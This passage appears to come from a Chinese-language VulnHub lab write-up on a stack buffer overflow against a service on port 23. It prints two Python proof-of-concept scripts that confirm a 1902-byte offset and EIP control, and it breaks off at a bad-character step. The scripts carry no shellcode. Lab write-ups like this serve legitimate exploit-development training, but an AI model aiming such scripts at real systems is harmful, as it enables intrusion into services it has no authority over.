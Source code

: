![7](https://static.iihack.com/vulnhub/613/7.png)

![8](https://static.iihack.com/vulnhub/613/8.png)

看来长度是1902

### poc3.py

```bash
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
buff = "A"*1898
eip = "B" * 4
buffer = "C" * 24
inputBuffer = buff + eip + buffer 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
s.close()
```

![9](https://static.iihack.com/vulnhub/613/9.png)



### poc4.py

```bash
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
buff = "A"*1902
eip = "B" * 4
buffer = "C" * (2500-len(buff) - len(eip))
inputBuffer = buff + eip + buffer 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![10](https://static.iihack.com/vulnhub/613/10.png)



### poc5.py

反复测试坏字符
